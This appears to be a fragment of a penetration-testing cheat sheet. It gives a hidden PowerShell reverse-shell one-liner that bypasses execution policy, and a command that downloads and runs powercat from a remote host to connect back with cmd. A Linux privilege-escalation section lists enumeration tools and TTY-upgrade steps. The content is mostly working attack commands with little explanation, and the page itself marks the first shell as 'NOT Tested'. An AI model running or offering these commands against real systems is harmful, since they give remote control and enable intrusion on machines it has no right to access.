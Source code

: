 ````

NOT Tested 
powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip='192.168.xxx.xxx';$port=xxxx;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split();$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd','ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data + $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}" 

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.XXX.XXX/powercat.ps1');powercat -c 192.168.XXX.XXX -p 443 -e cmd"
````



# Privilege Escalation


## Linux PrivEsc


### Linux - Automated Scripts 

````
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
unix-privesc-check
metasploit: multi/recon/local_exploit_suggester
````

### Interactive Shell 

````
python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<> 
````
